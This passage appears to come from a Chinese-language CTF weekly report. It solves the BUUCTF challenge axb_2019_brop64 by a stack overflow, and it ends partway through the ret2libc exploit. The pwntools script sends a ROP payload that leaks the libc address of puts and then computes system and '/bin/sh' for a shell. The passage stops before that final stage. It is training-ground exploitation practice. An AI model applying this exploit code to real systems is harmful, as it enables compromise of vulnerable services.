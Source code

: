 ```python
ru("Please input the name of fruit:")
sl(payload)

shell()
```

## 4.BUUCTF-axb_2019_brop64
栈溢出

<img width="603" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/28ad1a8c-fffe-4b18-9e98-ca90a03d0732">

常规ret2libc

### exp_axb_2019_brop64.py
```python
from pwn import *
# p = process("./axb_2019_brop64")
p = remote("node4.buuoj.cn",25597)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("/mnt/hgfs/ubuntu/BUUCTF/source/ubuntu16/libc-2.23-64.so")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

offset = 216

pop_rdi_ret = 0x0000000000400963
main = 0x0000000004007D6

puts_plt = 0x400640
puts_got = 0x000000000601018

# 1.leak libc
payload = b'A' * offset + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main)

ru("Please tell me:")
#raw_input("Ther")
sl(payload)

libc_puts = u64(ru('\x7f')[-6:].ljust(8, '\x00'))
success("libc_puts ==> {}".format(hex(libc_puts)))

libc_base = libc_puts - libc.symbols['puts']
success("libc_base ==> {}".format(hex(libc_base)))

libc_system = libc_base + libc.symbols['system']
success("libc_system ==> {}".format(hex(libc_system)))

libc_binsh = libc_base + libc.search('/bin/sh').next()
success("libc_binsh ==> {}".format(hex(libc_binsh)))

# 2.system("/bin/sh")
```